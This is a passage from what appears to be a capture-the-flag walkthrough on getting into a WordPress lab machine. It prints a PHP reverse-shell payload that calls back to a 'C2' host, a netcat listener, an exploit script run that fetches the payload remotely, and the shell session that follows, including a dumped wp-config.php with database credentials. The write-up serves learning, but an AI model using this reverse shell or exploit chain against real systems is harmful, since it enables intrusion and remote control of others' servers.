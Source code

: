 ```python
```

## exploitation
Create a file `shell.txt` with the following content.

```
<pre>system('php -r \'$sock=fsockopen("C2",1234);exec("/bin/sh -i <&3 >&3 2>&3");\'')</pre>
```

Now we start our `netcat` listener on the attacker machine.

```
$ nc -lvp 1234
```

Execute the exploit script

```bash
$ python2 46794.py -t http://192.168.55.123/wordpress/ --payload-uri http://c2/shell.txt
```

Catching the connect from the target.

```bash
$ nc -lvp 1234                                                                     
listening on [any] 1234 ...
192.168.55.123: inverse host lookup failed: Unknown host
connect to [192.168.55.200] from (UNKNOWN) [192.168.55.123] 35760
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Yay we got a shell!

## first flag
```bash
$ pwd
/var/www
$ cat local.txt
a*****************************d
```

# privilege escalation

Having a closer look at the `wordpress` config file and which users exist on the system gives us an indication how to elevate our privileges.

```bash
$ pwd
/var/www/html/wordpress
$ cat wp-config.php
...
/** MySQL database username */
define( 'DB_USER', 'wp_user' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3&]vzhHmMn9,:-5' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
$ ls /home
takis
```
